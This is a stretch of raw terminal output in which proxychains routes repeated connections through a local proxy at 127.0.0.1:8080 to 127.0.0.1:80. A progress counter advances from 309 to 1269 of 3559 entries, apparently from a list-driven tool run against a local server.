[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (309 / 3559)  8.68%  ETA: 00:08:29
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (314 / 3559)  8.82%  ETA: 00:08:28
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (319 / 3559)  8.96%  ETA: 00:08:27
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (324 / 3559)  9.10%  ETA: 00:08:26
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (329 / 3559)  9.24%  ETA: 00:08:25
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (334 / 3559)  9.38%  ETA: 00:08:24
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (339 / 3559)  9.52%  ETA: 00:08:23
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (344 / 3559)  9.66%  ETA: 00:08:22
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (349 / 3559)  9.80%  ETA: 00:08:22
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (354 / 3559)  9.94%  ETA: 00:08:21
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (359 / 3559) 10.08%  ETA: 00:08:20
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (364 / 3559) 10.22%  ETA: 00:08:19
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (369 / 3559) 10.36%  ETA: 00:08:18
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (374 / 3559) 10.50%  ETA: 00:08:17
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (379 / 3559) 10.64%  ETA: 00:08:16
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (384 / 3559) 10.78%  ETA: 00:08:15
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (389 / 3559) 10.93%  ETA: 00:08:14
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (394 / 3559) 11.07%  ETA: 00:08:13
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (399 / 3559) 11.21%  ETA: 00:08:12
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (404 / 3559) 11.35%  ETA: 00:08:11
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (409 / 3559) 11.49%  ETA: 00:08:10
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (414 / 3559) 11.63%  ETA: 00:08:09
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (419 / 3559) 11.77%  ETA: 00:08:09
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (424 / 3559) 11.91%  ETA: 00:08:08
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (429 / 3559) 12.05%  ETA: 00:08:07
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (434 / 3559) 12.19%  ETA: 00:08:06
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (439 / 3559) 12.33%  ETA: 00:08:05
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (444 / 3559) 12.47%  ETA: 00:08:04
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (449 / 3559) 12.61%  ETA: 00:08:03
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (454 / 3559) 12.75%  ETA: 00:08:02
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (459 / 3559) 12.89%  ETA: 00:08:01
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (464 / 3559) 13.03%  ETA: 00:08:00
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (469 / 3559) 13.17%  ETA: 00:08:01
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (474 / 3559) 13.31%  ETA: 00:08:00
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (479 / 3559) 13.45%  ETA: 00:07:59
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (484 / 3559) 13.59%  ETA: 00:07:58
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (489 / 3559) 13.73%  ETA: 00:07:58
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (494 / 3559) 13.88%  ETA: 00:07:57
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (499 / 3559) 14.02%  ETA: 00:07:56
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (504 / 3559) 14.16%  ETA: 00:07:55
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (509 / 3559) 14.30%  ETA: 00:07:54
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (514 / 3559) 14.44%  ETA: 00:07:53
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (519 / 3559) 14.58%  ETA: 00:07:52
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (524 / 3559) 14.72%  ETA: 00:07:51
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (529 / 3559) 14.86%  ETA: 00:07:50
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (534 / 3559) 15.00%  ETA: 00:07:53
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (539 / 3559) 15.14%  ETA: 00:07:52
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (544 / 3559) 15.28%  ETA: 00:07:51
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (549 / 3559) 15.42%  ETA: 00:07:50
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (554 / 3559) 15.56%  ETA: 00:07:49
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (559 / 3559) 15.70%  ETA: 00:07:48
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (564 / 3559) 15.84%  ETA: 00:07:48
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (569 / 3559) 15.98%  ETA: 00:07:47
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (574 / 3559) 16.12%  ETA: 00:07:46
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (579 / 3559) 16.26%  ETA: 00:07:45
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (584 / 3559) 16.40%  ETA: 00:07:44
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (589 / 3559) 16.54%  ETA: 00:07:43
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (594 / 3559) 16.69%  ETA: 00:07:42
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (599 / 3559) 16.83%  ETA: 00:07:41
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (604 / 3559) 16.97%  ETA: 00:07:40
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (609 / 3559) 17.11%  ETA: 00:07:39
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (614 / 3559) 17.25%  ETA: 00:07:39
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (619 / 3559) 17.39%  ETA: 00:07:38
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (624 / 3559) 17.53%  ETA: 00:07:37
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (629 / 3559) 17.67%  ETA: 00:07:36
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (634 / 3559) 17.81%  ETA: 00:07:35
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (639 / 3559) 17.95%  ETA: 00:07:34
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (644 / 3559) 18.09%  ETA: 00:07:34
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (649 / 3559) 18.23%  ETA: 00:07:33
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (654 / 3559) 18.37%  ETA: 00:07:32
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (659 / 3559) 18.51%  ETA: 00:07:31
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (664 / 3559) 18.65%  ETA: 00:07:30
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (669 / 3559) 18.79%  ETA: 00:07:29
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (674 / 3559) 18.93%  ETA: 00:07:28
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (679 / 3559) 19.07%  ETA: 00:07:28
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (684 / 3559) 19.21%  ETA: 00:07:27
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (689 / 3559) 19.35%  ETA: 00:07:27
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (694 / 3559) 19.49%  ETA: 00:07:27
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (699 / 3559) 19.64%  ETA: 00:07:26
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (704 / 3559) 19.78%  ETA: 00:07:25
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (709 / 3559) 19.92%  ETA: 00:07:24
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (714 / 3559) 20.06%  ETA: 00:07:23
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (719 / 3559) 20.20%  ETA: 00:07:22
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (724 / 3559) 20.34%  ETA: 00:07:21
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (729 / 3559) 20.48%  ETA: 00:07:20
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (734 / 3559) 20.62%  ETA: 00:07:20
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (739 / 3559) 20.76%  ETA: 00:07:19
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (744 / 3559) 20.90%  ETA: 00:07:18
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (749 / 3559) 21.04%  ETA: 00:07:17
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (754 / 3559) 21.18%  ETA: 00:07:16
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (759 / 3559) 21.32%  ETA: 00:07:16
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (764 / 3559) 21.46%  ETA: 00:07:15
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (769 / 3559) 21.60%  ETA: 00:07:14
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (774 / 3559) 21.74%  ETA: 00:07:13
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (779 / 3559) 21.88%  ETA: 00:07:12
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (784 / 3559) 22.02%  ETA: 00:07:11
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (789 / 3559) 22.16%  ETA: 00:07:22
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (794 / 3559) 22.30%  ETA: 00:07:21
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (799 / 3559) 22.45%  ETA: 00:07:20
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (804 / 3559) 22.59%  ETA: 00:07:19
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (809 / 3559) 22.73%  ETA: 00:07:18
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (814 / 3559) 22.87%  ETA: 00:07:17
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (819 / 3559) 23.01%  ETA: 00:07:16
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (824 / 3559) 23.15%  ETA: 00:07:15
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (829 / 3559) 23.29%  ETA: 00:07:14
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (834 / 3559) 23.43%  ETA: 00:07:13
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (839 / 3559) 23.57%  ETA: 00:07:12
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (844 / 3559) 23.71%  ETA: 00:07:11
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (849 / 3559) 23.85%  ETA: 00:07:11
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (854 / 3559) 23.99%  ETA: 00:07:10
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (859 / 3559) 24.13%  ETA: 00:07:09
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (864 / 3559) 24.27%  ETA: 00:07:08
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (869 / 3559) 24.41%  ETA: 00:07:07
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (874 / 3559) 24.55%  ETA: 00:07:06
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (879 / 3559) 24.69%  ETA: 00:07:05
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (884 / 3559) 24.83%  ETA: 00:07:04
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (889 / 3559) 24.97%  ETA: 00:07:04
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (894 / 3559) 25.11%  ETA: 00:07:03
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (899 / 3559) 25.25%  ETA: 00:07:02
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (904 / 3559) 25.40%  ETA: 00:07:01
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (909 / 3559) 25.54%  ETA: 00:07:00
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (914 / 3559) 25.68%  ETA: 00:06:59
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (919 / 3559) 25.82%  ETA: 00:06:58
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (924 / 3559) 25.96%  ETA: 00:06:57
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (929 / 3559) 26.10%  ETA: 00:06:57
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (934 / 3559) 26.24%  ETA: 00:06:56
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (939 / 3559) 26.38%  ETA: 00:06:55
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (944 / 3559) 26.52%  ETA: 00:06:54
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (949 / 3559) 26.66%  ETA: 00:06:53
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (954 / 3559) 26.80%  ETA: 00:06:52
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (959 / 3559) 26.94%  ETA: 00:06:51
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (964 / 3559) 27.08%  ETA: 00:06:50
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (969 / 3559) 27.22%  ETA: 00:06:49
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (974 / 3559) 27.36%  ETA: 00:06:49
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (979 / 3559) 27.50%  ETA: 00:06:48
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (984 / 3559) 27.64%  ETA: 00:06:47
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (989 / 3559) 27.78%  ETA: 00:06:46
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (994 / 3559) 27.92%  ETA: 00:06:45
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (999 / 3559) 28.06%  ETA: 00:06:44
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                           > (1004 / 3559) 28.21%  ETA: 00:06:43
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                           > (1009 / 3559) 28.35%  ETA: 00:06:43
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                           > (1014 / 3559) 28.49%  ETA: 00:06:42
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                           > (1019 / 3559) 28.63%  ETA: 00:06:41
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                           > (1024 / 3559) 28.77%  ETA: 00:06:40
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                           > (1029 / 3559) 28.91%  ETA: 00:06:39
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                           > (1034 / 3559) 29.05%  ETA: 00:06:38
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                           > (1039 / 3559) 29.19%  ETA: 00:06:37
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                           > (1044 / 3559) 29.33%  ETA: 00:06:37
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                           > (1049 / 3559) 29.47%  ETA: 00:06:36
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                           > (1054 / 3559) 29.61%  ETA: 00:06:35
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                           > (1059 / 3559) 29.75%  ETA: 00:06:34
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                           > (1064 / 3559) 29.89%  ETA: 00:06:33
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                           > (1069 / 3559) 30.03%  ETA: 00:06:32
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                           > (1074 / 3559) 30.17%  ETA: 00:06:31
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                           > (1079 / 3559) 30.31%  ETA: 00:06:31
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                           > (1084 / 3559) 30.45%  ETA: 00:06:30
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                           > (1089 / 3559) 30.59%  ETA: 00:06:29
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                           > (1094 / 3559) 30.73%  ETA: 00:06:28
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                           > (1099 / 3559) 30.87%  ETA: 00:06:27
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                           > (1104 / 3559) 31.01%  ETA: 00:06:26
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                           > (1109 / 3559) 31.16%  ETA: 00:06:26
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                           > (1114 / 3559) 31.30%  ETA: 00:06:25
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                           > (1119 / 3559) 31.44%  ETA: 00:06:24
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                           > (1124 / 3559) 31.58%  ETA: 00:06:23
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                           > (1129 / 3559) 31.72%  ETA: 00:06:22
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                           > (1134 / 3559) 31.86%  ETA: 00:06:21
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                           > (1139 / 3559) 32.00%  ETA: 00:06:21
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                           > (1144 / 3559) 32.14%  ETA: 00:06:20
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                           > (1149 / 3559) 32.28%  ETA: 00:06:19
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                           > (1154 / 3559) 32.42%  ETA: 00:06:18
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                           > (1159 / 3559) 32.56%  ETA: 00:06:17
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                           > (1164 / 3559) 32.70%  ETA: 00:06:16
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                           > (1169 / 3559) 32.84%  ETA: 00:06:16
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                           > (1174 / 3559) 32.98%  ETA: 00:06:15
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=                                                                          > (1179 / 3559) 33.12%  ETA: 00:06:14
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                           > (1184 / 3559) 33.26%  ETA: 00:06:13
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                           > (1189 / 3559) 33.40%  ETA: 00:06:12
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                           > (1194 / 3559) 33.54%  ETA: 00:06:11
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                           > (1199 / 3559) 33.68%  ETA: 00:06:10
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                           > (1204 / 3559) 33.82%  ETA: 00:06:10
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                           > (1209 / 3559) 33.97%  ETA: 00:06:09
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                           > (1214 / 3559) 34.11%  ETA: 00:06:08
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                           > (1219 / 3559) 34.25%  ETA: 00:06:07
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                           > (1224 / 3559) 34.39%  ETA: 00:06:06
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=                                                                          > (1229 / 3559) 34.53%  ETA: 00:06:06
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=                                                                          > (1234 / 3559) 34.67%  ETA: 00:06:05
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                           > (1239 / 3559) 34.81%  ETA: 00:06:04
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                           > (1244 / 3559) 34.95%  ETA: 00:06:03
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=                                                                          > (1249 / 3559) 35.09%  ETA: 00:06:02
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK==                                                                         > (1254 / 3559) 35.23%  ETA: 00:06:01
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK==                                                                         > (1259 / 3559) 35.37%  ETA: 00:06:01
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK==                                                                         > (1264 / 3559) 35.51%  ETA: 00:06:00
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=                                                                          > (1269 / 3559) 35.65%  ETA: 00:05:59
